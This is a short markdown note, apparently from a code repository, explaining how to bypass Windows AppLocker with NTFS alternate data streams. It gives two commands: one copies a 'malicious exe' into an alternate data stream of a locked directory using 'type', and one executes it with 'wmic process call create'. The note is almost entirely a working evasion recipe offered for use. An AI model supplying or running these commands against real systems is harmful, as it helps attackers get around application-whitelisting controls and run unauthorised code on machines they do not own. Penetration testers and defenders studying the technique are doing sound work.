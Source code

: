 ## bypass applocker unsing alternate data streams

### Copy malicious exe into the locked directory (current working directory must be one level above the locked directory)
```
type <path\to\file.exe> > .\<lockedDirectory>:<file.exe>
```

### Execute
```
wmic process call create '"%CD%\<lockedDirectory>:<file.exe>"'
```

